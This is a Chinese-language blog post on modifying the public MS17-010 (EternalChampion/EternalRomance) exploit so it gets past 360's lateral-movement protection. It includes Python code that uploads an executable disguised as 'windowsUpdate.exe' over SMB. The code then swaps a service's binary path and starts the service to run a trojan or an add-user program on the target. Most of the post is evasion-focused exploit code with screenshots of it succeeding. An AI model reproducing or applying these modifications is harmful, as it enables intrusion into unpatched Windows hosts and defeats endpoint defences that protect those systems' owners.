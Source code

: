 ```yaml
---
layout: post
title: MS17-010 EXP 分析 && modify 

---
```


## 0x01  前言

内网打Ms17-010比较常见，一般走代理proxychains打正向payload

windows/x64/meterpreter/bind_tcp

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211112173233.png)

经过测试，在不开启360横向渗透防护情况下msf还是会被拦截，也就是我们大家常见的这种场景是会被拦截的

这里先说明下，正常安装360的情况下，一般是不会开启360横向渗透防护的，这个模块一般需要自己手动去添加。

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211115092540.png)

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211112173749.png)

## 0x02 乱杀

防护开的比较全的情况下，就开始乱杀了，send smb可以把工具传上去，但是执行命令还是被横向渗透防护拦截，

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211115104253.png)

测试时候发现，如果源IP不是当前Ip的话，就会被拦截远程攻击，判断攻击方式后查看源代码发现攻击利用的是老impacket包里面的psexec模块，攻击利用方式还是以起服务的方式, 拦截的主要地方是psexec起服务的地方，360这个横向渗透模块拦截了大部分的功能

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211115104536.png)

测试wmihacker查看横向是否拦截，发现360横向渗透防护并不拦截，查看源代码发现wimihacker主要是使用Win32_Process换成win32_schedulejob

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211115104356.png)

## 0x03 分析

整个的代码逻辑就是两个组合漏洞的利用cve-2017-0146(EternalChampion)和cve-2017-0143(EternalRomance)，首先要能匿名访问机器的管道，并且获取到管道的名称，大致是一下几个browser，spoolss，netlogon，lasrpc , samr

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211117115311.png)

有些机器访问可能需要身份验证，比如在某些环境中，我们需要一个普通用户，或者在能直接访问匿名管道的机器上配置代理，比如下图我们访问需要输入凭据，这种凭据我们也可以通过爆破的方式获取

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211117115541.png)

获取管道名字后，然后拿到smbSession，上传文件，在C盘的根目录下创建一个Pwned.txt的文件

```python
def smb_pwn(conn, arch):
   smbConn = conn.get_smbconnection()
   
   print('creating file c:\\pwned.txt on the target')
   tid2 = smbConn.connectTree('C$')
   fid2 = smbConn.createFile(tid2, '/pwned.txt')
   smbConn.closeFile(tid2, fid2)
   smbConn.disconnectTree(tid2)
```

然后后面再定义service_exec方法执行命令

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211118093129.png)

跟踪代码查看是如何创建服务的，调用了CreateService的api

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211115141245.png)

打开OpenSVCManager，打开服务后获取lpServiceHandle，下面resp里面在写入CreateService的句柄

```python
resp = scmr.hRCreateServiceW(rpcsvc, svcHandle, service_name + '\x00', service_name + '\x00', lpBinaryPathName=cmd + '\x00')
```

我们仿照他的思路改即可，继续往下看代码，就是移除服务的功能，这个就是Psexec的原版功能，他在执行后会删除刚才创建过的服务，这个地方其实也是一个比较会被拦截的地方。

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211117114259.png)

## 0x04 修改

把文件上传的内容改成自己需要执行的exe，从本地上传，这里exe设置为马或者添加用户的exe都可以。

```
smb_send_file(smbConn, 'C:\Windows\Temp\windowsUpdate.exe', 'C', '/Users/Public/Downloads/windowsUpdate.exe')
print('文件上传')
service_exec(conn, r'C:\\ProgramData\\windowsUpdate.exe ')
```

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211119144029.png)

```python
resp = scmr.hRChangeServiceConfigW(rpcsvc, resp['lpServiceHandle'], scmr.SERVICE_NO_CHANGE, scmr.SERVICE_DEMAND_START, scmr.SERVICE_ERROR_IGNORE, cmd + '\x00')
   serviceHandle = resp['lpServiceHandle']
   
   if serviceHandle:
      # start service
      try:
         print('Starting service %s.....' % service_name)
         scmr.hRStartServiceW(rpcsvc, serviceHandle)
         # is it really need to stop?
         # using command line always makes starting service fail because SetServiceStatus() does not get called
         #print('Stoping service %s.....' % service_name)
         #scmr.hRControlService(rpcsvc, serviceHandle, scmr.SERVICE_CONTROL_STOP)
      except Exception as e:
         print(str(e))
      
      print('Removing service %s.....' % service_name)
      scmr.hRDeleteService(rpcsvc, serviceHandle)
      scmr.hRCloseServiceHandle(rpcsvc, serviceHandle)
except Exception as e:
   print("ServiceExec Error on: %s" % conn.get_remote_host())
   print(str(e))
finally:
   if svcHandle:
      scmr.hRCloseServiceHandle(rpcsvc, svcHandle)

rpcsvc.disconnect()
```

修改后执行攻击

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211119144716.png)

服务的二进制路径已经被修改了

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211119145045.png)

可以看到在有360的情况下可以直接修改服务二进制路径然后启动服务（执行添加用户的exe)

![](https://gitee.com/a4m1n/tuchuang/raw/master/pic/20211119145810.png)

